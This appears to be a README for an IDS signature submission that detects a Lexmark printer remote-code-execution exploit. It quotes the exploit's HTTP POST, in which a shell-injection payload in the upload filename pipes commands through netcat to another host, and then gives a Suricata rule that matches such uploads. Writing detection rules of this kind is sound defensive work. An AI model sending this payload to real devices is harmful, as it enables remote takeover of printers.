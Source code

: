 # ET Open Submission
### January 25th, 2023
### Lexmark RCE Exploit Detected


## Resources

1. https://github.com/blasty/lexmark

Lexmark RCE 0-Day as of January 10th, 2023

Without an actual Lexmark printer I am making some assumptions but the initial POST is mostly all I needed to confirm this wasn't previously being detected and can be detected based on it.

Below is the initial POST from the exploit given by blasty.

```POST /webglue/uploadfile/ImportFaxLogo HTTP/1.1
Host: 192.168.2.1
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 188
Content-Type: multipart/form-data; boundary=be74f00990243272ae1a2528f31c16e0

--be74f00990243272ae1a2528f31c16e0
Content-Disposition: form-data; name="x"; filename="x"

lol;";sh /tmp/xyz # "; id | nc 192.168.2.29 1912 | sh # 
--be74f00990243272ae1a2528f31c16e0--
```

I generated a Flowsynth PCAP from this info. [Download it here](flowsynth.pcap)

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any msg:"ET Exploit (Lexmark Malicious File Upload Detected)"; flow:established,to_server; http.method; content:"POST"; bsize:4; http.uri; content:"/webglue/uploadfile/ImportFaxLogo"; bsize:33; fast_pattern; http.request_body; content:"Content-Disposition:"; nocase; content:"name="; nocase; content:"filename="; nocase; within:255; pcre:"/(?:[\x60\x3b\x7c\x26]|%60|%3b|%7c|%26|(?:[\x3c\x3e\x24]|%3c|%3e|%24)(?:\x28|%28))/Ri"; reference:url,https://github.com/blasty/lexmark; classtype:exploit-activity; sid:1; rev:1;)```


[Dalton Job ID](https://dalton.centraliowacybersec.com/dalton/coverage/job/1ac0f73a37a2378e)

This link **should** last for 30 days. If not, just use the pcap to recreate it.

## Downloads

[Flowsynth PCAP](flowsynth.pcap)
